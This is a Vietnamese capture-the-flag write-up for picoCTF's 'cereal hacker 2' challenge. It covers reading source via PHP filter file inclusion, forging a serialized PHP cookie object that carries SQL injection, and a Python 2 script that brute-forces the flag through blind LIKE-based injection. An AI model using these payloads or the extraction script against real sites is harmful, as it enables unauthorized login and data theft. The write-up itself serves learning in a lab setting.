

#### cereal hacker 2 ([Link](https://2019shell1.picoctf.com/problem/62195/index.php?file=login))

- Nhìn vào đề thì đoán có vẻ nó bị dính *LFI* rồi, điển hình dạng này là *PHP filter*, tham khảo để biết thêm: [Link](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

- Quá may, vì *fuzzing* bằng *guest và guest* không được. Nhưng giờ ta nắm trong tay *source* của hầu hết các page

- Page của *Login* có 1 đoạn này

  ```php
  require_once('../sql_connect.php');
  require_once('cookie.php');
  ```

- Giờ ta xem *source* của page *cookie.php*

  ```php
  class siteuser
  {
  	public $username;
  	public $password;
  	...
  ```

- Có vẻ phần *serialize* chỉ đổi mỗi *tên class*, tức là giờ đổi *permissions* của bài trước thành *siteuser* là xong

-  Phần *serialize* cũ đây

  - `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`
  - Giờ sửa lại *Object* thành *siteuser*, đổi lại payload phần *password*
  - `O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`

- Vấn đề bây giờ là payload để bypass qua bài. Để ý thì hint nói đây là 1 bài *blind sql* (hint trong game)

- OK, giờ lấy *payload* mà mình hay xài 

  - `' OR password LIKE 'a%' OR '`
  - Không giải thích nhiều về payload này, bài trước cũng có xài rồi. Theo thói quen và tùy bài có filter hay không thì quyết định dùng hàm *LIKE* hay *SUBSTRING* hay là hàm nào đó. Về phần mình thì với *blind sql* và *timing sql* thì mình thường sử dụng với *LIKE* hơn 

- Giờ ghép payload vào *serialize*

  - `O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"' OR password LIKE 'a%' OR '";}`

- Về phần mình thì mình sẽ viết 1 tool để lấy ra password của bài. Như những bài trước, mình sẽ không giải thích về tool (lưu ý là tool này code bằng python 2 chứ không phải 3)

  ```python
  import requests, re
  import sys
  import base64
  from string import *
  
  char = ascii_lowercase + digits
  
  listpass = ''
  
  flag = 0
  
  no = []
  
  url = 'https://2019shell1.picoctf.com/problem/62195/index.php?file=admin'
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		c = 'O:8:"siteuser":2:{{s:8:"username";s:5:"admin";s:8:"password";s:{}:"{}";}}'
  
  		payload = "' OR password LIKE 'picoCTF{"+listpass+x+"%}' OR 1='"
  
  		cookies = {
  			'user_info' : base64.b64encode(c.format(len(payload), payload))
  		}
  
  		response = requests.get(url, cookies = cookies)
  
  		fin = re.findall('Welcome to the admin page!', response.text)
  
  		if fin != no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 36:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  ```

- OK, chạy cũng khá lâu, flag khá dài

  
